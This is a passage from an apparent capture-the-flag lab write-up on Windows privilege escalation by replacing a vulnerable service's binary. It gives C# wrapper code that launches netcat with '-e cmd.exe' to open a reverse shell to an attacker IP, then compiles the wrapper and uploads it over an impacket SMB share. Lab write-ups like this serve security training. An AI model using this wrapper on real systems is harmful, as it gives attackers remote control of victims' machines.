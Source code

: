 All we need to do now is create our own binary and replace it with vulnerable service. Create wrapper.

```
using System;
using System.Diagnostics;


namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc64-munaz.exe", "10.50.91.49 26000 -e cmd.exe");
            procInfo.CreateNoWindow = true;
            proc.StartInfo = procInfo;
            proc.Start();
        }
    }
}
```

after editing the file, save and exit then run this command.

```
mcs wrapper.cs
```

it transfer wrapper to exe which we will be uploading to windows machine, to upload to machine we are going to use impacker smbserver.

![](/Images/wreath/Screenshot-2021-04-07-193841-1024x223.png)

created the server now need to connect to share.

![](/Images/wreath/Screenshot-2021-04-07-194049-1024x150.png)

copy the wrapper.exe file to machine, after that disconnect the share.
